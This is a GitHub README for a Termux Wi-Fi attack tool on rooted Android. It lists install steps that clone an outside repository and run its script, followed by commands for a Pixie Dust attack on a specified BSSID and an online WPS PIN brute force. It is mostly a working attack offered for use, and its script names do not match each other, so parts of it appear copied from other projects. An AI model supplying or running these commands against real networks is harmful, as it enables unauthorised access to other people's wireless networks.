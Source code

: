 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/5cPyw37/IMG-20240219-WA0007.jpg"></p>

### Installation :

```bash
 apt update && apt upgrade

 pkg install -y root-repo

 pkg install -y git tsu python wpa-supplicant pixiewps iw

 git clone https://github.com/Remixtj012/wps.wifi

 sudo python wps.wifi/Remixtj-Shop.py -i wlan0 -K
```

#### Example : `sudo python Remixtj_WiFi_Hack/Remixtj-Shop.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Muhammad_Naiyem.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Muhammad_Naiyem.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Muhammad_Naiyem.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
